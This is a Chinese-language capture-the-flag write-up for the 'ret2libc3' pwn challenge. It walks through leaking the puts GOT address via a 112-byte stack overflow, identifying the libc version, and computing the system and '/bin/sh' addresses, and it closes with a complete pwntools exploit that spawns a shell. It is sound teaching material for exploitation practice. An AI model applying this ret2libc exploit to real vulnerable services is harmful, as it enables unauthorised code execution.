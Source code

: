 # ret2libc3

首先查看保护：

![1-1](C:\Users\86177\Desktop\PWN\retlibc\ret2libc3\1-1.png)

![1-2](C:\Users\86177\Desktop\PWN\retlibc\ret2libc3\1-2.png)

没有找到system函数和/bin/sh字符串。

如果知道libc中某个函数的地址，进而可以知道system函数的地址。

为得到libc中某个函数的地址，一般采用got表泄露，即输出某个函数对用的got表的内容。由于libc的延迟绑定机制，需要泄露已经执行过的函数的地址。这个机制大致就是在第一次调用某个函数的时候，这个函数的got表中存放的是下一条plt表的指令的地址，经过一系列操作后得到真实地址，然后将这个真实地址放到got表中，这样之后调用这个函数的时候在got表中可以直接找到真实地址。

因为在这之前已经运行过puts函数，so，got表中放着puts的真实地址，所以我们可以将puts的真实地址打印出来。

> libc基地址   +   函数偏移量    =   函数真实地址

以下可以找到puts的真实地址：0xf7da9ca0

```
from pwn import *
io = process("./ret2libc3")
elf = ELF("./ret2libc3")
puts_got = elf.got["puts"]
puts_plt = elf.plt["puts"]

payload = b'a'*112 + p32(puts_plt) +p32(0xdeadbeef) + p32(puts_got)
io.recv()
io.sendline(payload)
puts_addr = hex(u32(io.recv()[0:4]))
print(puts_addr)
```

![1-3](C:\Users\86177\Desktop\PWN\retlibc\ret2libc3\1-3.png)

找到了puts的真实地址，但是还需要知道libc的版本，其实根据真实地址是可以得到libc的版本的。

ASLR，地址随机化，但即是再随机化，它的低12位保持不变，因为内存页对齐的缘故。

0xf7da9ca0的低12位是ca0，这里有个网站：https://libc.blukat.me/

可以根据低12位查到这个的版本![1-4](C:\Users\86177\Desktop\PWN\retlibc\ret2libc3\1-4.png)

这样就得到了system函数的偏移和/bin/sh的偏移。

> system_offset = 0x03d2e0
> puts_offset = 0x067ca0
> bin_sh_offset = 0x17e0af

完整EXP：

```
from pwn import *

p = process('./ret2libc3')
elf = ELF('./ret2libc3')

puts_got_addr = elf.got['puts']
puts_plt_addr = elf.plt['puts']
main_plt_addr = elf.symbols['_start']

payload = b'a'*112 + p32(puts_plt_addr) + p32(main_plt_addr) + p32(puts_got_addr)
#main_plt_addr可以使程序再次溢出

p.recv()
p.sendline(payload)

puts_addr = u32(p.recv()[0:4])

sys_offset = 0x03d2e0
puts_offset = 0x067ca0
sh_offset = 0x17e0af
#libc基地址 + 函数偏移 = 函数真实地址
libc_base_addr = puts_addr - puts_offset
sys_addr = libc_base_addr + sys_offset 
sh_addr = libc_base_addr + sh_offset 
 

payload = b'a'*112 +p32(sys_addr) + p32(0xdeadbeef) +p32(sh_addr)

p.sendline(payload)
p.interactive()
```

